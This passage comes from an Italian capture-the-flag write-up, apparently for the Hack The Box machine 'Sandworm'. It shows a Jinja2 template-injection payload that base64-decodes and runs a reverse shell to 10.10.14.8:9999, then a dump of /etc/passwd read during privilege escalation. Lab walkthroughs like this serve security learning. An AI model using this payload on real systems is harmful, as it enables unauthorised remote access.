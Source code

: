 Successivamente, genero il payload da utilizzare per creare la reverse shell:

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjE=" | base64 -d | bash').read() }}
```

Quindi rieseguo la procedura di creazione, carico i testi e, prima di premere su "Verify Signature", avvio un listener sulla porta 9999:

<p align="center">
  <img src="/Immagini/Linux-Box/Sandworm/sandworm-8.png" />
</p>

**Sono dentro!**

Purtroppo però non è presente alcuna flag.

## Privilege Escalation

Controllo il file _/etc/passwd/_:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```